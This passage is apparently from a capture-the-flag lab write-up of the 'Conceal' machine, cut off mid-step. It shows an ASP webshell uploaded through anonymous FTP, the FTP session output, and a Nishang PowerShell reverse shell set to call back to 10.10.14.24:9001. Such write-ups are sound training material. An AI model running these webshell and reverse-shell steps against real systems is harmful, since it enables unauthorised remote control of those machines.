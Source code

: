 ## FootHold
we can execute `system commands` with asp scripts. we'll grab the simple `webshell.asp` from [tennc webshells](https://github.com/tennc/webshell/blob/master/asp/webshell.asp) and we'll upload it to `FTP`.
```
wget https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp -o cmd.asp
```
```
ftp 10.10.10.116

Connected to 10.10.10.116.
220 Microsoft FTP Service
Name (10.10.10.116:mah1ndra): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmd.asp
local: cmd.asp remote: cmd.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1407 bytes sent in 0.00 secs (444.0929 kB/s)
ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
04-16-20  08:23AM                 1407 cmd.asp
226 Transfer complete.
```
Now, we can navigate to `http://10.10.10.116/upload/cmd.asp` to execute the commands.

![](/assets/images/htb-writeup-conceal/webshell.png)

## Shell as Destitute
We'll use  TCP reverse shell from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
```
wget https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.24 -Port 9001' >> Invoke-PowerShellTcp.ps1
```
